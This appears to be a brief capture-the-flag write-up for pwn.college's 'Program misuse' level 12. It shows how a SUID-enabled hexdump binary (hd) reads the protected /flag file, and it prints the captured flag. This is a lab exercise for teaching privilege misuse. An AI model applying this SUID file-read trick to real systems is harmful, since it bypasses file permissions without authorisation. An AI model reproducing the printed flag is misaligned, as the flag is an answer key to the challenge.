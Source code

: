 # pwn.college - Fundamentals - Program misuse - Level 12
```
$ /challenge/babysuid_level12
```
The SUID bit on `/usr/bin/hd` is set
```
$ hd /flag | grep -o --color=never "|.*|" | tr -d "|\n"
```
`pwn.college{obrttl5472hEdAY65z6_3VO9Lxt.0FN1EDLyYjNyEzW}`